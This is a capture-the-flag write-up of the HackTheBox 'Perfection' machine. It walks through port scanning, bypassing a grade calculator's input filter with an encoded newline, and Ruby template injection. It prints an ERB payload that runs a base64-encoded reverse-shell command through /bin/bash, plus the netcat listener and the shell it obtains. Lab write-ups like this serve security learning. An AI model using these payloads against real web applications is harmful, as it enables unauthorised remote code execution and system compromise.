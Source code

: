 ![Perfection](https://github.com/amalcew/htb-writeups/assets/73908014/904d7389-1950-4c2b-b6c1-e9e5a8e244d5)

## Reconnaissance & port scanning

Starting with `nmap` scan we discover open ports 22 and 80.

```bash
# Nmap 7.94SVN scan initiated Sun Mar 10 16:52:27 2024 as: nmap -v -sV -sC --open -vvv -oA logs/initial_recon/initial 10.10.11.253
Nmap scan report for 10.10.11.253 (10.10.11.253)
Host is up, received syn-ack (0.034s latency).
Scanned at 2024-03-10 16:52:27 CET for 8s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMz41H9QQUPCXN7lJsU+fbjZ/vR4Ho/eacq8LnS89xLx4vsJvjUJCcZgMYAmhHLXIGKnVv16ipqPaDom5cK9tig=
|   256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBqNwnyqGqYHNSIjQnv7hRU0UC9Q4oB4g9Pfzuj2qcG4
80/tcp open  http    syn-ack nginx
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 10 16:52:35 2024 -- 1 IP address (1 host up) scanned in 7.97 seconds
```

![01-webpage](https://github.com/amalcew/htb-writeups/assets/73908014/1e47cdf0-869d-456f-b4f1-74b6470a9b46)

Machine hosts webpage which allows to calculate your grades with usage of Ruby's framework called WEBrick.

![02-calculator](https://github.com/amalcew/htb-writeups/assets/73908014/e8577d4c-223c-41c7-902e-1d9e445429bd)

Additional scans (`ffuf`, `whatweb`, `dirsearch`) didn't discover anything that could be useful or vulnerable - the calculator itself looks like main goal of this machine.

The calculator blocks any special character except `/`. That way it prevents direct injection of the malicious input.

![03-malicious_input_blocked](https://github.com/amalcew/htb-writeups/assets/73908014/7ba5cb58-add9-40a0-8789-1600d7178a62)

In the case of this machine `Burp Suite` was very useful tool that allowed to tinker with the payload. After sending the POST request to repeater I've checked that calculator understands URL notation:

![03-url_hello_world](https://github.com/amalcew/htb-writeups/assets/73908014/0277e5df-3d04-44d1-917f-868c61070312)

This knowledge is very useful, as the page probably uses some regex filter to check for special characters. The question is, what special chars are omitted by mistake.
After some tinkering, I've discovered that `%0A` (URL newline character) is not properly handled. Using [HackTricks cheatsheet for SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) I've managed to check, that the machine is indeed vulnerable to SSTI attack.

In this example, payload is some text `hello`, `%OA` and URL-encoded Ruby's function to list root directory `<%= Dir.entries('/') %>`

![05-ssti_exposed](https://github.com/amalcew/htb-writeups/assets/73908014/15b7a43a-a7b0-4513-8cd1-b3d39c3a08e9)

## Initial foothold

Obtaining reverse shell connection on this machine required some experimenting with the payload, as simple `system("command")` was insufficient. 
The final payload was composed of `<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('payload') %><%= @b.readline()%>` and standard payload that spawned reverse shell.

```bash
# payload
echo YmFza ... SNIP ... +JjEK|base64 -d|/bin/bash

# reverse shell
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('eecho YmFza ... SNIP ... +JjEK|base64 -d|/bin/bash') %><%= @b.readline()%> 
```

The reverse shell was also URL-encoded using Burp's decoding tool for stability of the payload.
Listening on selected port and executing the payload spawned the reverse shell, as intended.

![06-reverse_shell](https://github.com/amalcew/htb-writeups/assets/73908014/7b504564-98f9-4e6d-b53c-1ecb200307c9)

```bash
> nc -lvnp 1234
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.253] 43938
bash: cannot set terminal process group (997): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ id
id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

This was sufficient to read user's flag.

```bash
susan@perfection:~/ruby_app$ cd
cd
susan@perfection:~$ cat user.txt
cat user.txt
9844************************6e80
```
